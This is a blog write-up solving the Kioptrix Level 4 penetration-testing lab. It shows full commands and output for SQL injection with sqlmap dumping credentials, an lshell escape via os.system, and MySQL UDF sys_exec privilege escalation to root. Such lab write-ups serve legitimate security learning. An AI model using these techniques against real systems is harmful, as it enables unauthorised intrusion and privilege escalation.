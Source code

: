 ```yaml
---
layout: post
title: "Pentest lab - Kioptrix Level 4"
date: 2014-06-22 22:39:14 +0300
comments: true
categories: [penetration testing, writeups]
keywords: kioptrix, penetration testing, hacking, security, kioptrix 4, kioptrix writeup, kioptrix level 4, kioptrix level 4 tutorial, kioptrix level 4 solution, kioptrix 4 solution
description: Penetration testing Kioptrix Level 4
---
```


This is the final vulnerable machine in the Kioptrix series. To set it up in VMware, create a new virtual machine with the advanced options and use existing virtual disk, pointing it at the Kioptrix 4 virtual disk.

<!-- more -->

Let's see what Nmap reveals:

``` plain
nmap -A -p1-65535 192.168.127.129

Starting Nmap 6.46 ( http://nmap.org ) at 2014-06-22 22:35 EEST
Nmap scan report for 192.168.127.129
Host is up (0.00074s latency).
Not shown: 39528 closed ports, 26003 filtered ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
MAC Address: 00:0C:29:1F:12:65 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2014-06-22T18:36:57-04:00
| smb-security-mode: 
|   Account that was used for smb scripts: guest
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Again, this seems to be a web based challenge. Navigating to the target website shows this:

{% img center /images/kio4.png 'login' 'login' %}

Supplying a single quote in the password field gives an error, which nicely discloses the database end as being MySQL:

*Warning: mysql_num_rows(): supplied argument is not a valid MySQL result resource in /var/www/checklogin.php on line 28
Wrong Username or Password*

Sqlmap to the rescue!

``` plain
sqlmap -u "http://192.168.127.129/checklogin.php" --dbms=MySQL --level=5 --risk=3 --data="myusername=admin&mypassword=test" --dump

Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
+----+----------+-----------------------+
```

Logging in with these credentials didn't yield anything though, all I could see was a member's control panel with no functionality. So I remembered the previous challenge that allowed SSH access, and tried to log in:

``` plain
root@kali:~# ssh john@192.168.127.129
The authenticity of host '192.168.127.129 (192.168.127.129)' can't be established.
RSA key fingerprint is 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.127.129' (RSA) to the list of known hosts.
john@192.168.127.129's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ 
```

Excellent! It's time for some sniffing around. This is not a normal shell, usual commands don't work, so let's see what's available with the help system.

``` plain
john:~$ help
cd  clear  echo  exit  help  ll  lpath  ls
```

Hmm, not much. Actions are restricted too, can't *cd* to wherever I want:

``` plain
john:~$ cd /
*** forbidden path -> "/"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
```

So I googled for a bit, and it appears this shell is a Python based limited shell (https://github.com/ghantoos/lshell):

> lshell is a shell coded in Python, that lets you restrict a user's environment to limited sets of commands, choose to enable/
> disable any command over SSH (e.g. SCP, SFTP, rsync, etc.), log user's commands, implement timing restriction, and more.

It is possible to escape from this shell by leveraging the *echo* command to call *os.system* in order to spawn a shell: <code>echo os.system('/bin/bash')</code>

``` plain
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

Poking around, I found the following information in <code>/var/www/john/john.php</code>:

``` plain
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
```

So, root doesn't have a password for MySQL? Let's check:

``` plain
john@Kioptrix4:/var/www/john$ mysql -u root -h localhost 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
```

[Here](http://www.iodigitalsec.com/mysql-root-to-system-root-with-udf-for-windows-and-linux/) I have found a way to get root privileges from a MySQL server running as root. Here's a quick summary:

* It is possible to escalate from MySQL server root level to system root by using User Defined Functions (UDF)

* We need the [lib_mysqludf_sys.so](https://github.com/mysqludf/lib_mysqludf_sys) library that contains some useful functions that can interact with the OS. The most important ones are **sys_exec** (executes the command and returns the exit status) and **sys_eval** (executes the command and returns the standard output)

The next step would be to find a way to get the library on the machine with our MySQL server. But that's not necessary in this case, because it's already on the server!

``` plain
john@Kioptrix4:~$ whereis lib_mysqludf_sys.so
lib_mysqludf_sys: /usr/lib/lib_mysqludf_sys.so
```

It took a bit of googling and trial and error until I found a way that worked in getting me to a root shell. [Here](http://superuser.com/questions/400723/how-do-i-create-a-superuser-from-the-command-line-in-ubuntu) is a useful post. The relevant part for us is this:

> Until Ubuntu 11.10, the Unix group for administrators with root privileges through sudo had been admin. Starting with Ubuntu 
> 12.04  LTS, it is now sudo, for compatibility with Debian and sudo itself. However, for backwards compatibility, admin group 
> members are still recognized as administrators

So it is possible to make the john account to be part of the admin group, that is equivalent to the sudo group. So from the MySQL prompt, run this:

``` sql
SELECT sys_exec('usermod -a -G admin');
```

What that does is it modifies john's account, appending it to the admin group. So let's do it on the MySQL command line:

``` sql
mysql> select sys_exec('usermod -a -G admin john');
+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 | 
+--------------------------------------+
1 row in set (0.11 sec)
```

Now from john's shell:

``` plain
john@Kioptrix4:~$ sudo su
[sudo] password for john: 
root@Kioptrix4:/home/john# whoami
root
```

Awesome! We finally got root access! In root's directory there is another </code>congrats.txt</code> file that tells us there are at least 2 different tested ways to get root on this system. It sure was an interesting machine, and my favorite in the series, because it wasn't as straightforward as the others, and I had to look for more information and try (and fail) different approaches before I hit upon the winning one.

Here's today's fortune cookie:

> You single-handedly fought your way into this hopeless mess.

